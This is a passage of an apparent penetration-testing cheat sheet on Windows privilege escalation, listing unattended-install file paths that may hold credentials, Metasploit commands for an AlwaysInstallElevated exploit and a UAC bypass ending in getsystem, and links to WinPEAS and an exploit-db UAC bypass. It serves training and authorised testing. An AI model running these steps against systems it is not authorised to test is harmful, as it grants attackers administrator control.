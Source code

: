 ```sudo -l (NOTE: lists commands a user can run as root) ```
	To exploit this vulnerability with Metasploit you can use the following Metasploit Module: exploit/windows/local/always_install_elevated
	
**Unattended Install Files:**


    C:\Windows\Panther\
    C:\Windows\Panther\Unattend\
    C:\Windows\System32\
    C:\Windows\System32\sysprep\


    Unattend.xml
    unattended.xml
    unattend.txt
    sysprep.xml
    sysprep.inf
**Bypassing UAC with Metaploit:**

	Use "background" to background your meterpreter shell.
	Then, to set the UAC bypass module in Metasploit type:

	use exploit/windows/local/bypassuac

	Next you set the session ID and the listening host IP and run the exploit with:

	set session [Session ID]

	set lhost [VPN IP]

	run
	
	getsystem
	
**Windows Exploit Suggester:**

	Coming Soon
	
**WMI Hotfixes:**

	Coming Soon
	
**WinPEAS:**

	See: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS
	
**Other Scripts & Tools:

	Common Exploits

	These next exploits are common privilege escalation exploits for Windows and worth trying if you come across matching operating systems.
	Windows Vista/7 – Elevation of Privileges (UAC Bypass)

	https://www.exploit-db.com/exploits/15609/

	This exploit applies to:

    		Windows Vista/2008 6.1.6000 x32,
   		Windows Vista/2008 6.1.6001 x32,
    		Windows 7 6.2.7600 x32,
    		Windows 7/2008 R2 6.2.7600 x64.
```
